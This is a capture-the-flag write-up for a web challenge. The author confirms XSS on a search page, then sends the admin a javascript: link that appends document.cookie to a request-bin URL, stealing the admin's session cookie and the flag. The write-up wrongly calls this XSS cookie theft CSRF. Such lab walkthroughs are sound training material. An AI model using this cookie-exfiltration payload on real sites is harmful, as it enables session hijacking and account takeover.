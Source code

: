 # Find Your Site

> Category: Web

> Points: 200

## Challenge Description

> translated: Mario is very happy with his website which can be used to exchange useful links, but he felt something was missing. That's why he added a possibility of searching/querying useful links, so he could help someone find something they are looking for. He is very proud of his code so he even decided to give you the source code so you can see how he had done that.
> Since he is so sure in his website, and also a bit lazy, he put some useful informations in cookies so he could access them easier. Mario decided to use his website and really believes that he hasn't made any flaws with it.
> If you also want to use the website, all you have to do is register and login. That way you will be able to search and send useful links to your friends and to the admin, which is of course Mario.

> native: Mario je jako sretan sa svojom stranicom na kojoj se mogu izmjenjivati korisni linkovi, ali osjećao je da nešto nedostaje. Zato je kasnije dodao mogućnost pretraživanja korisnih linkova, kako bi netko mogao lakše naći upravo ono što traži. Jako je ponosan na svoj kod pa ti je čak dao source kod kako bi mogao vidjeti kako je to napravio.
> Budući da je siguran u svoju stranicu, a i pomalo lijen, stavio je neke korisne informacije u kolačiće kako bi im lakše mogao pristupiti. Mario je nastavio korisiti svoju stranicu i zaista se uvjerio da nije time napravio nikakav propust.
> Ukoliko i ti želiš koristiti stranicu, sve što moraš napraviti je registrirati se i ulogirati. Tada ćeš moći pretraživati i slati korisne linkove svojim prijateljima i adminu, koji je naravno Mario.

## Analysis

![decrypted](website.png)

There's the cookies mentioned again. Looking into them we find a PHPSESSION.

That gives us an idea immediately. Let's see if the site is XSS-able.

We will go onto the search.php site and input this script and press Submit

```html
<script>alert("dimitri-dev")</script>
```

![decrypted](proof_xss.PNG)

Since in this challenge again we know the admin visits the links sent to him, and we have the PHPSession in the cookies, how about we grab that?

We are, of course, talking about CSRF - Cross Site Request Forgery.

Introduction to - https://pipedream.com/requestbin.

This site allows us to create an endpoint which we can use to steal the admin's PHPSession cookie and replace ours with it.

Once we set up the endpoint, we will send this as a link to the "admin" user.

```js
javascript:window.location="https://88b249371e461c6a00c4cf15cc204347.m.pipedream.net/" + document.cookie;
```

Looking on the endpoint's triggers, we will have a query body of the PHPSESSION id from admin.

And here it is:

![decrypted](cookie_stolen.PNG)

And together alongside the cookie, the flag is also in admin's cookies.

## FLAG

> CTF2021[099543867016]